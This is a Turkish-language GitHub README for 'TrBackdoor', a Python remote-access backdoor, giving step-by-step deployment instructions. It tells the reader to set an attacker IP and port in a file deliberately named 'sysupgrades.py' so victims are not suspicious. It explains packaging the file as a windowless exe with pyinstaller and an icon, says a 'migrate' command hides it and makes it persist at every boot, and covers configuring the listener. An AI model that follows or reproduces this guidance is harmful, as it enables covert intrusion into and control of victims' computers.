 # TrBackdoor
## Komutlar
![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/Command.png)
## Backdoor Ayarları
Not: sysupgrades ismini isterseniz değiştirebilirsiniz. Lakin backdoor'u hedefte saklamak istediğiniz zaman değiştirmiş olacağınız isim kullanıcıyı şüphelendirmemeli.<br/>
Öncelikle "sysupgrades.py" dosyamızı herhangi bir editör ile açınız ('SublimeText3').<br/>Daha sonra sınıfın dışında yer alan"ConfigSocket = MySocket("<İP>"<PORT>) kısmına backdoor için bir ip adresi ve port numarası giriniz. Yani<br/>
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/BackdoorConfig.png)
## Exe'ye Çevirme
"sysupgrades.py" backdoor'umuzu hedefimize göndermeden önce "pyinstaller" kullanarak exe'ye çevirelim.<br/> Burada size önerdiğim exe'ye çevirme işleminde mutlaka bir icon ekleyiniz ve noconsole komutunu kullanınız. Fakat dosyayı bir başka dosya ile (pdf) birleştirmeyiniz. Çünkü bağlantı sağladıktan sonra "migrate" komutunu kullandığınız sırada backdoor saklanacaktır. Kullanıcı bilgisayarını her başlattığında başlayacaktır. İşte bu başlatma sırasında her defasında backdoor ile birlikte pdf açılmasın ki kullanıcı şüphelenmesin diye exe'ye çevirirken bir dosya ile birleştirilmesini önermiyorum.<br/>
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ExeConvertor.png)<br/>
## Listener Ayarları
"Listener.py" dosyamızı yine bir editör ile açalım. Ardından yine alt tarafta yer alan<br/> "my_socket_listener = SocketListener("<İP>"<PORT>)" kısmını kendi local ip adresimizi girelim. Yani<br/>

